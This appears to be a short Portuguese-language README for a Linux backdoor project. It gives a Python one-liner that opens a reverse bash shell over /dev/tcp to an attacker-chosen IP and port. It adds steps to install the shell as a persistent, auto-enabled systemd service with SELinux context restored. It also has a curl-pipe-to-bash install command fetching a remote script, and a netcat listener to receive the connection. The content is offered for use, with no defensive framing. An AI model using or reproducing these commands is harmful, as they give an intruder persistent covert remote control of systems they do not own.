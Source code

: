 # Backdoor

#### Script
> import os ; os.system('bash -i >& /dev/tcp/[IP DE DESTINO]/[PORTA DE DESTINO] 0>&1')

#### Configurações de Selinux
restorecon -RFv /usr/lib/systemd/system/backdoor.service

#### Configurações de Systemd
cp backdoor.service /usr/lib/systemd/system/
systemctl daemon-reload
systemctl start backdoor.service
systemctl enable backdoor.service

#### Instalação
curl -s -L https://raw.githubusercontent.com/laurobmb/backdoor_linux/master/install.sh | bash

#### No server
Para receber a conexão basta executar:

> nc -nlv 8001